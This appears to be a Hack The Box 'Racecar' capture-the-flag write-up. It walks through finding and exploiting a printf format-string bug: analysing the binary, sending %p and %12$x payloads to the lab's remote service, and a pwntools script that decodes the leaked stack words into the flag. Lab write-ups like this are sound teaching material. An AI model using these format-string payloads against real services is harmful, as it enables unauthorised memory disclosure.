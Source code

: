 ```yaml
---
title: "HTB - Racecar [ PWN ]"
date: 2022-02-27T18:39:55-05:00
draft: false
---
```


Before starting the vulnerability search, we must first perform a basic analysis.

![image](https://user-images.githubusercontent.com/88755387/142025252-e61b2429-06f9-4464-94d7-e3cc8e7507e4.png)

If we look at the strings of the executable and filter by the word 'flag' we realize that there is a file called flag.txt which we assume is hidden.

![image](https://user-images.githubusercontent.com/88755387/142025391-0d68b387-fb14-46ab-948d-345e326b67a9.png)

We are going to debug the executable with the IDA tool.

![image](https://user-images.githubusercontent.com/88755387/142025485-6ad74b6f-29cc-400c-83aa-9f21c3f19d26.png)

Inside the `car_menu` function we have a file called `flag.txt` which will only be opened if the program flow enters `car_menu:loc_FC`. We know this because at that function a call is made to the `_printf` function after 'winning the race'.

Let's see what address the `_printf` function has:

![image](https://user-images.githubusercontent.com/88755387/142025864-4fa8907e-6335-42cc-a400-9be503ae2e00.png)

Before we continue we are going to create a file called 'flag.txt' as the one the program is looking for to read in the same directory where we are going to run the binary.

``` 
echo 'AAAA' > flag.txt
```

We run the binary in GDB and put a breakpoint in the vulnerable function `_printf`:

![image](https://user-images.githubusercontent.com/88755387/142026049-dfe69c2f-3ba4-48e9-8677-7f32f91c4da7.png)

Now we run the binary and enter 40x `%p` to display more information: 

```
gdb-peda$ run
Name: sth
Nickname: sth
> 2
> 1
> 2
> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

![image](https://user-images.githubusercontent.com/88755387/142026262-33deb92a-7566-47e2-a058-e2fd67259d86.png)

At the 12th position, there is a beginning of `flag.txt` — `AAAA` string which was input before. It seems like the flag is stored on the stack.

Now we have to leak the flag from the remote service. We use [direct parameter access input format string](https://kevinalmansa.github.io/application%20security/Format-Strings/) `%12$x` to leak `flag.txt` from a remote system.

```
nc 104.248.169.123 31242
[ ... ]
> %12$x
```

![image](https://user-images.githubusercontent.com/88755387/142026727-f38db53b-bb06-40c0-8c19-4a4bdb7685b0.png)

If we convert them to ASCII we will find the beginning of the flag:

```
7b425448 -> {BTH
4854427b -> HTB{
```

The next step is reversing the flag. As we know that the flag is between two '{}' we will look for the value of the closing brace in hexadecimal.

```
{ -> 7b
} -> 7d
```

Now that we know its value we will reverse the bytes that are inside the braces.

```
%x%x%x%x%x%x%x%x%x%x%x---FLAG: %p%p%p%p%p%p%p%p%p%p%p ---
```

![image](https://user-images.githubusercontent.com/88755387/142026897-d3eb1187-6f89-4b88-9aeb-ad6c30199a56.png)

The last thing left is to create a script to view the flag in ASCII:

```python
from pwn import *

flag = '0x7b4254480x5f7968770x5f6431640x34735f310x745f33760x665f33680x5f67346c0x745f6e300x355f33680x6b6334740x7d213f'
decoded_flag = []

for element in flag.split('0x')[1:]:
 decoded_flag.append(p32(int('0x' + element,16)))
 
print (b''.join(decoded_flag))
```

![image](https://user-images.githubusercontent.com/88755387/142027222-c9604f62-37df-4a97-996a-0b5eeb5d6241.png)

I hope you liked! :D